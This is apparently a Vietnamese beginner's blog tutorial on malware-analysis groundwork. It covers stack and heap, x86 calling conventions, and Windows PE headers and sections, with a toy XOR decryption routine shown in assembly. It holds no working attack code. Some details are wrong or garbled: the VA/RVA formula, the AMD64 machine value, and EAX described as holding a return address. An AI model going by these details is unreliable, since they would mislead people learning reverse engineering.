# Malware for Beginners — Bộ nhớ, PE headers và shellcode

> Nhan_laptop |

> ở blog này mình sẽ giới thiệu qua một số khái niệm về malware và hơn hết các thành phần liên quan của một tập file thực thi trên window, từ đó mình có thể thực hành để khai thác.
> Vì khá là nhiều kiến thức nên mình sẽ chỉ ra nhiều section khác nhau.

## Phần 1 — Bộ nhớ: stack, heap và calling convention

### Stack, calling convention - truyền tham số; địa chỉ trả về, bảo toàn thanh gi, stdcall.

khi nhắc đến bộ nhớ trên RAM ta đều nhớ về  2 loại vùn nhớ quan trọng được máy tính sử dụng trong quá trình chạy:
- stack
- heap


#### stack

Stack là vùng nhớ lưu các biến local, thông số hàm - function parameters, và thông tin về function call (như là return addresses).

Stack hoạt động theo LIFO: last in, first out ( như stack trong data structure ).


Call stack là kiểu dữ liệu theo dõi của function calls. Mỗi lần một hàm được gọi , một `stack frame` được đẩy vào stack. Khi thoát khỏi hàm, stack frame popped off.

Dữ liệu trên stack chỉ hiện trong quá trình hàm chạy.

Stack mở rộng và thu hẹp tự động với lời gọi hàm và trả về.

Con trỏ - Pointers là biến, nó lưu trữ địa chữ của bộ nhớ.


Khi một lời gọi hàm trả về, tất của các biến stack được hủy và con trỏ stack được di về.

Bạn không buộc phải tự giải phóng bộ nhớ stack, như heap.

Bạn có thể dùng con trỏ stack để  phân bổ lại vị trí dữ liệu, nhưng nếu bạn trả một con trỏ tới biến local từ một hàm, nó sẽ không hợp lệ sau khi hàm trả vè - kết thúc.

stack có một size nhất định, được quy định bởi ÓS ( thường thì tầm vài trăm KBs tới vài MBs trên một tiến trình/chương trình).

Stack overflow diễn ra khi một chương trình dùng nhiều bộ nhớ stack hơn nó có sẵn.

#### Heap

Heap là một vùng nhớ lớn được sử dụng đề cấp phát động với các dữ liệu mà kích cỡ hoặc thời gian suất hiện không được biết trong quá trình chạy.

Bạn có thể tự cấp phát bộ nhớ trên heap, bằng cách dùng `malloc/free`

Một vòng đời của dữ liệu trên heap được kiểm soát bởi người lập trình ( hoặc garbage collector, đối với các ngôn ngữ có cơ chế qunar lý bộ nhớ tự động).

Heap sẽ lớn hơn về kích thước so với stack. Điển hình, các đối tượng, cấu trúc dữ liệu lớn ( như mảng, danh sách liên kết), và bất kể các dữ liệu nào mà bạn muốn chia sẽ giữa các hàm hoặc tồn tại lâu hơn mọt lần gọi hàm thì được lưu trong heap.

Với mỗi thread có riêng nó một stack nhưng heap thì share chung cho các thread.


#### Calling convetion - truyền tham số; đại chỉ trả về, bảo toàn thanh ghi , stdcall.

Trong ngôn ngữ C/C++, calling convetion được định nghĩa là một tập các luật lệ, nó xác định cách thức một hàm sẽ được gọi. Bạn có thể nhìn thấy các từ khóa như `__cdecl` hoặc `__stdcall` khi bạn gặp lỗi liên quan đến liên kết (linking errors).

##### Caller và callee?

khi chúng ta gọi một hàm, một stack frame sẽ được cấp phát cho hàm đó, các tham số sẽ được truyền cho hàm, và sau đó hàm làm việc của nó xong, stack frame đã được cấp phát bị giải phóng và quyền điều khiển bị truyền cho calling function.

Hàm được chương trình con được gọi là hàm gọi - caller. Hàm được gọi bởi caller được gọi là callee.

##### Calling convention

Calling convention trong C/C++ là các hướng dẫn, quyết định:

- Cách mà các tham số - arguments được chuyển sang stack.
- Ai sẽ là người dọn dẹp các stack, caller, callee.
- Registers nào được dùng và cách dùng.

##### Các loại Calling Conventions

Có nhiều loại calling conventions tùy thuộc vào các platforms khác nhau. Chúng ta sẽ làm quen với 32-bit x86 calling conventions:
- `__cdecl`
- `__stdcall`
- `__fastcall`
- `__thiscall` (C++ only )

1. `__cdecl`

`__cdecl` calling convention là calling convention mặc định trong C/C Trong calling convention này:
- Các tham số được đẩy từ phải sang trái ( để các tham số đầu tiên gần với đỉnh stack nhất).
- Caller dọn dẹp stack.
- Tạo ra các tệp thực thi lớn hơn so với `__stdcall`, do mỗi lời gọi hàm cần bao gồm mã dọn dẹp stack.

2. `__stdcall`
Đây là calling convetion riêng của Microsoft được dùng trong hàm Win32 API, ở convetion này:
- Các tham số được đẩy từ phải sang trái.
- Callee sẽ dọn dẹp stack.

3. `__fastcall`

Trong `__fastcall` calling convention, các tham số được chuyển vào thanh ghi nếu có thể.
- 2 tham số đầu tiên được chuyển vào thanh gi ECX và EDX. Các tham số còn lại được chuyển vào stack từ phải qua trái.
- Callee sẽ dọn stack.

4. `__thiscall`

`__thiscall` calling convetnion là calling convention mặc định được gọi bởi method bên trong class. Đó là lí do vì sao chỉ trong C++ mới có thể gọi còn C thì không:
- Các tham số được đầy vào stack từ phải sang trái.
- con trỏ `this` được chuyển vào thanh ghi ECX, và không trên stack.
- vì ta chuyển con trỏ `this` này, nên khoogn thể sử dụng quy ước gọi hàm này cho các hàm không phải là hàm thành viên.
- Callee dọn dẹp stack.

##### Địa chỉ trả về

Một `return address` là một vị trí bộ nhớ xác định điểm trong chương trình mà tại đó quyền điều khiển nên dược trả về sau khi hàm thực thi. Đây là thành phần qua trọng trong stack, được sử dụng để xử lý lỗi và điều khiển luồng chương trình

Nằm trên stack ngay sau khi lệnh CALL được thực thi (lệnh CALL đẩy địa chỉ của lệnh kết tiếp vào stack). Lệnh RET sẽ pop địa chỉ này vào thanh ghi `EIP/RIP` để tiếp tục luồng thực thi của chương trình.

##### Bảo toàn thanh ghi

trước hết ta cần điểm qua các thanh ghi quan trọng và chức năng của nó, mục đích sử dụng tổng quan cảu registers:

| Registers | Tên | Chức năng chính |
| -------- | -------- | -------- |
| EAX     | accumulater     | khởi tạo toán cục, chứ giá trị trả về- return value của hàm     |
| ECX     | Counter     | làm biến đếm vòng lặp (loop), dùng để chứa con trỏ `this` (`__thiscall`) hoặc tham số 1 (`__fastcall`)     |
|  edx | data   | hỗ trợ phép nhân/chia lớn, chứa tham số 2 trong `__fastcall` |
|  ebx | base   | thanh ghi lưu trữ dữ liệu chung callee-saved |
| esp | stack pointer  | luôn trỏ vào đỉnh stack. Thay đổi liên tục khi pushs,pop,call,ret |
| ebp | base pointer  | trỏ vào gốc của stack frame hiện tại. Dùng làm mốc cố định để truy cập tham số và biến local ([ebp + x],[ebp-x]) |
| edi  | destination index  | con tỏ đihcs vào các thao tác chuỗi mảng (movsd, stosb) |
|eip  | instruction pointer | con trỏ lệnh - trỏ tới địa chỉ của lệnh assem tiếp theo được cpi thực thi (thanh ghi quan trọng nhất khi hijack luồng chạy) |

ví dụ với đoạn mã:
```go
int __fastcall DecryptPayload(char* src, char* dst, int length) {
    int count = 0;
    for (int i = 0; i < length; i++) {
        dst[i] = src[i] ^ 0x5A;
        count++;
    }
    return count;
}
```

assembly:

```go
; =========================================================================
; PROLOGUE: Thiết lập Stack Frame
; =========================================================================
0x00401000  push ebp             ; Lưu EBP cũ của Caller vào Stack
0x00401001  mov  ebp, esp        ; EBP = Đáy (Base Pointer) cố định của Stack Frame mới
0x00401003  sub  esp, 0x08       ; ESP nhích xuống để tạo không gian cho biến local (count, i)

; =========================================================================
; TRUYỀN THAM SỐ (__fastcall) & CHUẨN BỊ LẶP
; ECX = src (tham số 1), EDX = dst (tham số 2), [ebp+8] = length (tham số 3 trên stack)
; =========================================================================
0x00401006  mov  esi, ecx        ; ESI = src (Con trỏ nguồn: trỏ vào chuỗi bị mã hóa)
0x00401008  mov  edi, edx        ; EDI = dst (Con trỏ đích: trỏ vào vùng nhớ chứa kết quả)
0x0040100A  mov  ecx, [ebp+0x08] ; ECX = length (Đưa độ dài vào làm Counter cho vòng lặp)
0x0040100D  xor  ebx, ebx        ; EBX = 0 (Dùng EBX làm biến đếm count, gán bằng 0)

; =========================================================================
; LOOP: Giải mã chuỗi
; =========================================================================
DECRYPT_LOOP:
0x0040100F  mov  al, [esi]       ; AL (8-bit thấp của EAX) = lấy 1 byte từ ESI (src)
0x00401011  xor  al, 0x5A        ; AL = AL ^ 0x5A (XOR byte đó với key)
0x00401013  mov  [edi], al       ; Lưu byte đã giải mã vào vị trí EDI (dst)
0x00401015  inc  esi             ; ESI++ (Nhích con trỏ nguồn sang byte tiếp theo)
0x00401016  inc  edi             ; EDI++ (Nhích con trỏ đích sang byte tiếp theo)
0x00401017  inc  ebx             ; EBX++ (count++)
0x00401018  dec  ecx             ; ECX-- (Giảm số lần lặp còn lại)
0x00401019  jnz  DECRYPT_LOOP    ; Nếu ECX != 0 thì nhảy tiếp tục vòng lặp

; =========================================================================
; EPILOGUE: Trả về kết quả & Dọn dẹp Stack
; =========================================================================
0x0040101B  mov  eax, ebx        ; EAX = EBX (Chuyển giá trị count vào EAX làm RETURN VALUE)
0x0040101D  mov  esp, ebp        ; Thu hồi bộ nhớ biến local, ESP khôi phục về vị trí EBP
0x0040101F  pop  ebp             ; Pop lấy lại EBP nguyên bản cho Caller
0x00401020  ret  0x04            ; Nhảy về địa chỉ Return Address, dọn dẹp tham số trên Stack
```

sơ đồ trực quan tịa địa chỉ `0x0040100F`:
```go
REGISTER STATE AT RUNTIME (x64dbg / Debugger view):
  ===========================================================================
  [ EIP ] = 0x0040100F  ---> [Chỉ vào lệnh "mov al, [esi]" tiếp theo sẽ chạy]

  [ EBP ] = 0x0019FF80  ---> [Mốc cố định đáy Stack Frame: dùng để đọc [ebp+8]]
  [ ESP ] = 0x0019FF78  ---> [Đỉnh Stack hiện tại: bị kéo xuống 8 byte để chứa biến local]

  [ ESI ] = 0x00403000  ---> [Con trỏ NGUỒN: trỏ tới byte mã hóa '0x1F' trong RAM]
  [ EDI ] = 0x00405000  ---> [Con trỏ ĐÍCH: trỏ tới vùng RAM trống chuẩn bị ghi]

  [ ECX ] = 0x0000000A  ---> [Biến đếm COUNTER: còn lại 10 lần lặp]
  [ EBX ] = 0x00000002  ---> [Thanh ghi lưu trữ chung: giữ giá trị count = 2]
  [ EAX ] = 0x00000000  ---> [Đang chuẩn bị nhận giá trị 8-bit AL; sau vòng lặp sẽ chứa Return Value]
  [ EDX ] = 0x00000000  ---> [Sử dụng phụ trợ (hoặc chứa tham số ban đầu)]
  ===========================================================================
```

Trong kiến trúc x86/x64 Windows, CPU chỉ có một số lượng thanh ghi hữu hạn. Để tránh việc các hàm đè dữ liệu của nhau, hệ điều hành và trình biên dịch chia các thanh ghi thành 2 nhóm chính:

1. Volatile Registers/Caller-saved Registers (Thanh ghi "Caller bảo toàn")
- Khái niệm: Các thanh ghi này có thể bị `Callee` thay đổi tùy ý trong quá trình chạy.
- Nếu caller muốn giữ lại dữ liệu trong các thanh ghi này sau khi gọi hàm, Caller bắt buộc phải tự push lưu nó vào Stack trước khi gọi, và pop lấy lại sau khi hàm trả về.
- Các thanh ghi trong x86 (32-bit): eax,ecx,edx.
    - Eax thường dùng để chứa giá trị return address của hàm.

2. Non-volatile Registers/ Callee-saved Registers (thanh ghi "Callee bảo toàn")
- Khải niệm: các thanh ghi này chứa dữ liệu quan trọng trong Caller. Callee được phép dùng, nhưng phải đảm bảo giá trị của chúng không thay đổi sau khi hàm kết thúc.
- Nếu callee muốn dùng các thanh ghi này, ngay đầu hàm (Prologue) Callee phải push chúng vào stack, và trước khi hàm ret kết thúc hàm (Epilogue), Callee phải pop để khôi phục lại các gía trị nguyên bản.
- Các thanh ghi trong x86: ebx, esi, edi,ebp, esp.

trực quan:

```go
; --- Prologue đầu hàm callee ---
push ebp            ; lưu ebp của caller
mov ebp, esp        ; thiết lập stack frame mới
push ebx            ; bảo toàn: lưu ebx ban đầu vòa stack - callee-saved
push esi            ; bảo toàn: lưu esi ban đầu vào stack - callee saved

; --- function body ---

mov ebx, xxxx ; callee dùng thoải mái ebx
mov esi, xxxx ; callee dùng thoải mái esi

; --- epilogue cuối hàm callee ---
pop esi             ; khôi phục lấy lại esi ban đầu cho caller
pop ebx             ; khôi phục lấy lại ebx ban đầu cho caller
mov esp, ebp        ; thu hồi stack frame
pop ebp             ; khôi phục ebp của caller
ret                 ; return address hàm trước đó
```

Bảo toàn thanh ghi:
- Caller-saved (EAX,ECX,EDX): caller tự giữ, callee dùng thoải mái.
- Callee-saved (ebx,esi,edi,ebp,esp): callee bắt buộc phải push trong stack trước khi dùng và pop để lấy ra.

## Phần 2 — PE (Portable Executable): headers và sections

5. VA / RVA / file offset — phân biệt địa chỉ trong RAM với vị trí byte trên đĩa.
6. Entry Point → CRT → WinMain — hiểu chương trình bắt đầu và tiếp tục chạy thế nào.
7. Imports, IAT và exports — chương trình tìm và gọi hàm trong DLL ra sao.
8. Quyền bộ nhớ và ASLR — R/W/X, DEP, VirtualProtect, địa chỉ có thể thay đổi.
9. Shellcode và XOR — mã máy chạy trong tiến trình; XOR dùng để biến đổi rồi khôi phục byte.
10. Reverse engineering/debugging — IDA đọc lệnh, CFF đọc PE, HxD sửa byte; debugger kiểm tra lúc chạy.

### PE - Portable Excutable - định dạng EXE/DLL windows: hearders, sections, .text, .data, .rsrc

Trong các hệ thống window, chúng ta sẽ dễ thấy vô số extensions, nhưng nổi bật nhất vẫn là các định dạng như .exe, .dll, .sys. Điểm chung của tất cả các loại tệp này là chúng đều tuân theo một định dạng PE (Portable Executable). Format này là định dạng chuẩn mà windows sử dụng  cho các tệp thực thi và các thư viện liên kết động - DLL, giúp các hệ thống load và thực hiện chương trình một cách hiệu quả hơn.

Định dạn này là một extension của định dạng COFF, vốn ban đầu được phát triển để lưu trữ các tệp đối tượng trong hệ thống Unix. Microsoft đã tùy biến và được mở rộng COFF để tạo ra định dạng PE nhằm đáp ứng các yêu cầu đặc thù của tệp thực thi và thư viện trong môi trường windows.

 

#### PE - Portable Excutable

Pe là định dạng mô tả image thực thi của Windows, gồm metadate, vùng mã/dữ liệu và thông tin để loader đưa image và bộ nhớ:



##### PE header: những trường cần nhận diện
- MZ và PE:
    - MZ - Mark Zbikowski một nhà phá triền MS-DOS: chữ ký headers ở đầu file executable trên Win -> Nó xác định tệp này là một tệp thực thi MS-DÓS kiểu cũ -> cho phép các máy cũ chạy một chương trình nhỏ được tích hợp sẵn.
    - PE headers: tương tự với MZ là chữ ký header, nó cung cấp cho hệ thống loader Windows hiện đại tất cả các chỉ dẫn cần thiết để chạy chương trình một các chính xác.
- Machine, NumberOfSectiosn: kiến trúc và quy mô image.
- AddressOfEntryPoint: điểm bắt đầu theo metadate.
- ImageBase, SectionAlignment, FileAlignment.
- SizeOfImage, Subsystem, DataDirectory.

> Entry point là điểm bắt đầu được mô tả trong PE; không khẳng định đó là toàn bộ logic quan trọng.

##### VA / RVA / file offset — phân biệt địa chỉ trong RAM với vị trí byte trên đĩa.

1.  RVA - Relative Virtual Address

Như đã đề cập ở phần trước RVA- địa chỉ tương đối, là khoảng lệch (offset) tính bằng byte từ địa chỉ cơ sở - ImageBase của file thực thi khi nó được nạp vào bộ nhớ RAM.

Ví dụ, nếu một image được load ào memomry với địa chỉ cơ sở 0x40000 và RVA trỏ đến entry point - hàm main là 0x1000. Chúng ta có thể  xác định địa chỉ ảo của entry point bằng cách cộng 2 giá trị này lại:

```
VA = imagebase + rva = rva - (fileoffset - poinertorawdata)
```

không nhất thiết rva là một phương thức / biến biểu thị độ lệch từ điểm bắt đầu của imagebase. Thông thường, nó là giá trị tương đối so với một địa chỉ ảo; địa chỉ này thường là imagebase address nhưng cũng có thể là một sectionbase address.

##### Sections: mã, dữ liệu và tài nguyên

Section là các containers của một file dữ liệu thực thi, chúng chiếm phần còn lại của tệp PE sau các phần header, cụ thể là sau các section headers.



Vài sections sẽ có cái tên riêng để biểu thị mục đích sử dụng của chúng tham khảo ở [đây ](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#special-sections), một vài cái tên cần nhớ như:

|Section | Vai trò khái quát   |
| -------- | -------- |
|   .text | mã máy      |
| .rdata | dữ liệu chỉ đọc, chuỗi, bảng      |
| .data | dữ liệu có thể ghi      |
| .rsrc | Tài Nguyên      |
| .reloc | Thông tin điều chỉnh địa chỉ      |
| |      |
| |      |

> Tên section, kích thước, entropy và quền RWX là tín hiệu đặt câu hỏi, không phải bằng chứng kết luận riêng rẻ.

##### DOS HEADER và DOS Stub

DOS - Disk Operating System- hệ điều hành đĩa, về cơ bản DOS được dùng để chỉ bất kể hệ điều hành nào, nhưng nó thường được dùng phổ biến cho MS-DOS. DOS cung cấp giao diện dòng lệnh cho phép người dùng đưa ra các instuctions dưới dạng câu lệnh.



1. DOS HEADER

DOS HEADER (Có thể gọi là MS-DOS HEADER) là một cấu trúc 64-byte nó được hiện ở đầu file PE files. Header này không mới với định dạng PE, nó chính là  MS-DOS header đã tồn tại từ phiên bản 2 của hệ điều hành MS-DOS của hệ điều hành MS_DÓS. Lý do chính mà nó vẫn được giữ  nguyên cấu trúc ở phần đầu của định dạng PE là nhằm đảm bảo rằng, khi người dùng cố gắng tải một tệp tin được tạo trên Windows phiên bản 3.1( hoặc cũ hơn) hay MS-DOS phiên bản 2,0 (hoặc mới hơn), hệ điều hành vẫn có thể đọc tệp và nhận diện được rằng nó không tương thích.

Mặc dù đây không phải là header được dùng trong các hệ thống Windows hiện đại, nhưng nó vẫ hiện diện vì một vài lí do tương thích với hệ thống cũ hơn. Chúng ta có thể nhìn thấy cấu trúc của header này bằng cách kiểm tra định nghĩa của cấu trúc "image_dos_header" nằm trong thư viện winnt.h:



mặc dù định dạng header này không được dùng rộng rãi, nhưng nó giữ 6 bytes với thông tin quan trọng cho loader của hệ điều hành:
- `e_magic [2bytes-word]`: hay còn được gọi là magic number, nó nằm ở bên ngay ở 2 bytes đầu tiên ở PE file. Những bytes này được cố định với 0x5A4D, dịch là `MZ`.  Giá trị này dùng để xác định loại tệp MS-DÓS tương ứng, và với lí do này, nó đóng vai trò như một signature để  chỉ ra rằng một tệp thực thi MS-DOS hợp lệ.
- `e_lfanew [4bytes/DWORD]`: giá trị này tương ứng với 4 bytes cuối của cấu trúc DOS-Header, bắt đầu ở byte 60 ( độ lệch 0x3c từ base address). đây là một trường cực kỳ quan trọng vì đóng vai trò là dộd lệch dẫn tới NT-headers. Giá trị của 4 byte này xác định vị trí bắt đầu của NT headers trong tệp, cũng chính là vị trí bắt đầu của phần "PE signature". `NT headers` là phiên bản kế thừa hiện đại của DOS header và đóng vai trò thiết yêu dể hệ điều hành có thể tải và thực thi một tệp chính xác.

2. DOS Stub

Sau DOS header là DOS Stub (tại offest 0x40), một chương tình thực hti nhỏ tương thích với MS-DOS 2.0. Chức năng chính của nó là hiển thij thongo báo lỗi "This program cannot be run in DOS moide" (chương trình này không thể chạy trong chế độ mode) khi người dùng cố gắng chạy tệp tin trong môi trường DOS.

##### COFF file header.



- `Machine [2-byte/Word]`:  Xác định kiến trúc đích cho tiệp thực thi - x86, x64,arm,... Tuy nhiên, chnsg ta chỉ quan tâm đến 2 giá trị 0x8864 cho AMD64 và 0x14C cho i386. Danh sách đầy đủ cho giá trị có thể được xem trong tài liệu - [ Microsoft documentation on machine types](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#machine-types).
- `NumberOfSections [2bytes-Word]`: trường này lưu trữ số lượng section, hay nói theo cách khác là số lượng  sectuon headers (kích thước bảng section )
- `TimeDateStamp [4-bytes/DWord]`: giá trị này biểu thị thời điểm tạo hoặc biên dịch chương trường ở ạng dấu thời gian epoch - tức là số giây đã trôi qua kể từ thời điểm 00:00:00 ngày 1/1/1970. Một điểm đáng lưu ý là nguy cơ xảy ra lỗi tràn số nguyên vào năm 2038 do không gian lwuu trữ hạn ché của trường dữ liệu DWORD.
- PointerToSymbolTable and NumberOfSymbols [4bytes-DWord]`: 2 trường này giữ File offest đến bảng ký hiệu COFF và số lượng mục trên bảng đó. Tuy nhiên chúng đặt bằng 0 vì thông tin gỡ lỗi COFF đã lỗi thời trong PE hiện đại (không còn bảng COFF nữa).
- `SizeOfOptionalHead [2bytes/Word]`: lưu giữ kích thước của Optional Headers. Với PE32 thường là 0x00E0 (224bytes) và với PE32+ thì 0x00F0 (240bytes).
- `Charateristics [2-bytes/WORD]`: giữ `flags` biểu hiện cho thuộc tính files. Những thuộc tinh này  có thể bao gồm thông tin như liệu tệp có thể thực thi, tệp có phải là tệp hệ thống ( chứ không phải chương trình người dùng), cùng nhiều thông tin khác. Danh sách đầy đủ các thuộc tính có thẻ được tìm thấy trong tìa liêu Microsoft; một số thuộc tính trong đó bao gồm:
    - 0x0002: Executable File
    - 0x0020: Ứng dụng có thể được xử lý các địa chỉ lơns hơn 2 GB
    - 0x0100: Tệp là một DLL
    - 0x2000: Tẹp là một system file.
    - 0x4000: Tệp là một loadable driver
    - 0x8000: Tệp là media-aware.



##### Optional header



Header này là quan trọng nhất trong NT-Headers. System Loader sẽ nhìn vào thông tin được cung cấp bơi header này và tải và thực thi tệp tin. Nó được gọi là Optional Header vì một số loại tệp như object file không có nó, tuy nhiên, nó lại là yếu tố bawnst buộc với các image file. Header không có giá trị cố định, đó là lí do vì sao `SizeOfOptionalHeader` tồn tại trong `IMAGE_FILE_HEADER`.

để xem chi tiết các thông tin này các bạn có thể xem ở :
- https://blog.deephacking.tech/en/posts/anatomy-of-the-portable-executable-format/
- https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#optional-header-standard-fields-image-only

1. Optional Header Standard Fields (Image Only)

